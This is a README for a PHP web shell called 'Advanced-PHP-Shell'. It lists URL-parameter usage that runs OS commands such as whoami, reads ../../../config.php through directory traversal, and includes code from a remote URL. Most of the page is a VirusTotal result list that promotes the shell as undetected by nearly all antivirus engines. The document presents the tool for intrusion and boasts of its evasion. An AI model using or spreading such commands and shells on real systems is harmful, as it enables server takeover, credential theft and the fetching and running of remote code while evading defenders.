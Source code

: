 # Advanced-PHP-Shell
Allow to use native PHP functions and OS commands.


# Usage:

* f=  PHP function.
* p1= First parameter.
* p2= Second parameter.

# Example:
* advsh.php?f=getcwd
* advsh.php?f=scandir&p1=..
* advsh.php?f=system&p1=whoami
* advsh.php?f=system&p1=id
* advsh.php?f=system&p1=ipconfig
* advsh.php?f=hash&y=teste&p1=sha256
* advsh.php?f=copy&p1=teste.php&p2=teste.bkp
* advsh.php?f=readfile&p1=../../../config.php
* advsh.php?f=include&p1=https//www.brztec.com/file.php
* and much more...


# Virus Total Detection
https://www.virustotal.com/gui/file/74a4fb042e5802e1621f27641c497a29f68fcf32f4e37cfaef08190d67246daf/detection

Detection: 01 in 60.

Obs.: bellow is only for reference, check the above link for updates.

* **Tencent:** *BK.YDWebShell.PHP.Smalleval.ek*
* **Acronis (Static ML):** *Undetected*
* **AhnLab-V3:** *Undetected*
* **ALYac:** *Undetected*
* **Antiy-AVL:** *Undetected*
* **Arcabit:** *Undetected*
* **Avast:** *Undetected*
* **AVG:** *Undetected*
* **Avira (no cloud):** *Undetected*
* **Baidu:** *Undetected*
* **BitDefender:** *Undetected*
* **BitDefenderTheta:** *Undetected*
* **Bkav Pro:** *Undetected*
* **ClamAV:** *Undetected*
* **CMC:** *Undetected*
* **Cynet:** *Undetected*
* **Cyren:** *Undetected*
* **DrWeb:** *Undetected*
* **Emsisoft:** *Undetected*
* **eScan:** *Undetected*
* **ESET-NOD32:** *Undetected*
* **F-Secure:** *Undetected*
* **Fortinet:** *Undetected*
* **GData:** *Undetected*
* **Google:** *Undetected*
* **Gridinsoft (no cloud):** *Undetected*
* **Ikarus:** *Undetected*
* **Jiangmin:** *Undetected*
* **K7AntiVirus:** *Undetected*
* **K7GW:** *Undetected*
* **Kaspersky:** *Undetected*
* **Kingsoft:** *Undetected*
* **Lionic:** *Undetected*
* **Malwarebytes:** *Undetected*
* **MAX:** *Undetected*
* **MaxSecure:** *Undetected*
* **McAfee:** *Undetected*
* **McAfee-GW-Edition:** *Undetected*
* **Microsoft:** *Undetected*
* **NANO-Antivirus:** *Undetected*
* **Panda:** *Undetected*
* **QuickHeal:** *Undetected*
* **Rising:** *Undetected*
* **Sangfor Engine Zero:** *Undetected*
* **Sophos:** *Undetected*
* **SUPERAntiSpyware:** *Undetected*
* **Symantec:** *Undetected*
* **TACHYON:** *Undetected*
* **Trellix (FireEye):** *Undetected*
* **TrendMicro:** *Undetected*
* **TrendMicro-HouseCall:** *Undetected*
* **VBA32:** *Undetected*
* **VIPRE:** *Undetected*
* **VirIT:** *Undetected*
* **ViRobot:** *Undetected*
* **Xcitium:** *Undetected*
* **Yandex:** *Undetected*
* **Zillya:** *Undetected*
* **ZoneAlarm by Check Point:** *Undetected*
* **Zoner:** *Undetected*
* **Alibaba:** *Unable to process file type*
* **Avast-Mobile:** *Unable to process file type*
* **BitDefenderFalx:** *Unable to process file type*
* **CrowdStrike Falcon:** *Unable to process file type*
* **Cybereason:** *Unable to process file type*
* **Cylance:** *Unable to process file type*
* **Elastic:** *Unable to process file typev
* **Palo Alto Networks:** *Unable to process file type*
* **SecureAge:** *Unable to process file type*
* **SentinelOne (Static ML):** *Unable to process file type*
* **Symantec Mobile Insight:** *Unable to process file type*
* **TEHTRIS:** *Unable to process file type*
* **Trapmine:** *Unable to process file type*
* **Trustlook:** *Unable to process file type*
* **Webroot:** *Unable to process file type*
